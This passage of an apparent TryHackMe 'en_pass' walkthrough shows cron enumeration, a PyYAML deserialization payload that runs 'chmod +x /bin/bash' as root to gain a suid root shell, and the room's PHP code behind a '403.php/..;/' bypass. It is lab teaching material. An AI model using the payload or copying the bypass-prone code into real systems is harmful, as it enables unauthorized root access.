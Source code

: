 Let's look as ps command

```bash
$ ps -aux | grep cron
root       935  0.0  0.6  27724  3016 ?        Ss   19:50   0:00 /usr/sbin/cron -f
imsau     1711  0.0  0.2  12912  1012 pts/0    S+   20:20   0:00 grep cron
```

I found just this script run owned by root and ps shows cron running, so didn't bother running pspy.

For the privilege escalation we need to create a yml file. [This](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf) pdf has all the information needed to create the exploit. So the payload which I used 

```bash
!!python/object/apply:os.system ["chmod +x /bin/bash"]
```

After a while /bin/bash has a suid bit set using that we can get root shell

![/assets/images/TryHackMe/en_pass/Untitled%207.png](/assets/images/TryHackMe/en_pass/Untitled%207.png)

# Vulnerable code

Let's have a look at why the bypass worked.

```bash
function urlPath(){ 
        global $host;
        $server_port = $_SERVER['SERVER_PORT'];
        $server_protocol = $_SERVER['HTTPS'];
        $path = $_SERVER['REQUEST_URI'];
        $host = $_SERVER['HTTP_HOST'];

        if ($server_port == 443 || (!empty($server_protocol) && $server_protocol !='off' )){

            $protocol = "https://";    

        }
        else {

            $protocol ="http://";
        
        }

        $url = $protocol.$host.$path;
        return $url;
        

    }

$url_path = urlPath();
**$bypass_url = "http://$host/403.php/..;/" ;**

if ( $url_path === $bypass_url){

    echo "<h3>Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.</h3>";

}
```